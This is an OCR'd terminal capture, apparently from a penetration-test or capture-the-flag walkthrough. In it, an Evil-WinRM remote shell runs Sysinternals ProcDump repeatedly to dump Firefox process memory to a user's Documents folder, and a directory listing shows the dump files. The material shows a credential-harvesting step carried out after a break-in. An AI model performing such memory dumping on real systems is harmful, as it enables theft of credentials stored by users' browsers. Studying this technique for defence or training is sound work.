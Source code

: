 ```powershell
Copyright (C) 2009-2022 Mark Russinovich and Andrew Richards
Sysinternals - www.sysinternals.com

[00:11:46] Dump 1 initiated: C:\Users\Chase\Documents\firefox.exe_241225_001146.dmp
[00:11:46] Dump 1 writing: Estimated dump file size is 500 MB.
[00:11:47] Dump 1 complete: 501 MB written in 0.8 seconds
[00:11:47] Dump count reached.


ProcDump v11.0 - Sysinternals process dump utility
Copyright (C) 2009-2022 Mark Russinovich and Andrew Richards
Sysinternals - www.sysinternals.com

[00:11:47] Dump 1 initiated: C:\Users\Chase\Documents\firefox.exe_241225_001147.dmp
[00:11:47] Dump 1 writing: Estimated dump file size is 290 MB.
[00:11:47] Dump 1 complete: 290 MB written in 0.4 seconds
[00:11:48] Dump count reached.


ProcDump v11.0 - Sysinternals process dump utility
Copyright (C) 2009-2022 Mark Russinovich and Andrew Richards
Sysinternals - www.sysinternals.com

[00:11:48] Dump 1 initiated: C:\Users\Chase\Documents\firefox.exe_241225_001148.dmp
[00:11:48] Dump 1 writing: Estimated dump file size is 337 MB.
[00:11:48] Dump 1 complete: 338 MB written in 0.5 seconds
[00:11:49] Dump count reached.


ProcDump v11.0 - Sysinternals process dump utility
Copyright (C) 2009-2022 Mark Russinovich and Andrew Richards
Sysinternals - www.sysinternals.com

[00:11:49] Dump 1 initiated: C:\Users\Chase\Documents\firefox.exe_241225_001149.dmp
[00:11:49] Dump 1 writing: Estimated dump file size is 307 MB.
[00:11:49] Dump 1 complete: 307 MB written in 0.4 seconds
[00:11:49] Dump count reached.

*Evil-WinRM* PS C:\Users\Chase\Documents> ls


    Directory: C:\Users\Chase\Documents


Mode                LastWriteTime         Length Name
----                -------------         ------ ----
-a----       12/25/2024  12:11 AM      304634129 firefox.exe_241225_001142.dmp
-a----       12/25/2024  12:11 AM      512004347 firefox.exe_241225_001146.dmp
-a----       12/25/2024  12:11 AM      296627419 firefox.exe_241225_001147.dmp
-a----       12/25/2024  12:11 AM      345140376 firefox.exe_241225_001148.dmp
-a----       12/25/2024  12:11 AM      313652189 firefox.exe_241225_001149.dmp
-a----       12/25/2024  12:08 AM         424856 procdump64.exe
```
